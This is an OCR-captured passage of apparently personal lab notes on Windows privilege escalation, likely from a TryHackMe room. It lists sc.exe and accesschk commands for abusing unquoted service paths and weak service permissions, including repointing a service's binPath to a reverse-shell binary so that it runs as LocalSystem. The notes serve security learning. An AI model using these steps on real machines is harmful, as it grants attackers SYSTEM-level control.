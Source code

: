 ```
  

# Restart the service

  

C:\> sc.exe stop windowsscheduler

C:\> sc.exe start windowsscheduler

  

1. Unquoted Service Paths

  

# Path is quoted

sc qc "vncserver"

  

# Path is unquoted

# Valid paths:

# C:\MyPrograms\Disk.exe

# C:\MyPrograms\Disk Sorter.exe

# C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe

sc qc "disk sorter enterprise"

  

# Move the malicious binary to any of the path if the path is writable

  

  

  

1. Insecure Service Permissions

  

- use access check from sys internals : [https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk)

  

# Check servicee permissions

 accesschk64.exe -qlc thmservice

  

# After getting the malicious binary to target machine, update the service config

sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem

```